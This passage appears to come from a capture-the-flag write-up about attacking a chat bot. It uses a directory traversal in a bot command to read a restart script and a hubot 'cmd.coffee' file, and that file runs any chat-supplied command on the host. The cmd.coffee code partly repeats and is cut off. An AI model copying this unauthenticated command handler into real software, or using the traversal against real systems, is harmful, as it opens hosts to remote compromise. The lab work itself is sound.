 ```
pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6);
kill -9 $pid;
cd /home/dwight/hubot;
# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log
bash /home/dwight/hubot/start_bot.sh&
else


echo "[+] Bot running succesfully! date";
fi

else
# Restarts bot
echo "[-] Bot not running! date
";
#Killing the old process
pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6);
kill -9 $pid;
cd /home/dwight/hubot;
bash /home/dwight/hubot/start_bot.sh&
fi

done
<!=====End of file sale/../../bot_restart.sh=====>
```

Ok, looks like the bot stuff is all under `/home/dwight/hubot`, let's see what it can do.

We can see what scripts it can run with `recyclops list ../hubot/scripts/` which shows us a `cmd.coffee`.

```
 <!=====Contents of file ../hubot/scripts/cmd.coffee=====>
# Description:
# Runs a command on hubot
# TOTAL VIOLATION of any and all security!
#
# Commands:
# hubot cmd <command> - runs a command on hubot host

module.exports = (robot) ->
robot.respond /CMD (.*)$/i, (msg) ->
# console.log(msg)
@exec = require('child_process').exec
cmd = msg.match[1]
msg.send "Running [#{cmd}]..."

@exec cmd, (error, stdout, stderr) ->
if error
msg.send error
msg.send stderr
else
msg.send stdout
# Description:
# Runs a command on hubot
# TOTAL VIOLATION of any and all security!
#
# Commands:
# hubot cmd <command> - runs a command on hubot host

module.exports = (robot) ->
robot.respond /CMD (.*)$/i, (msg) ->
# console.log(msg)
```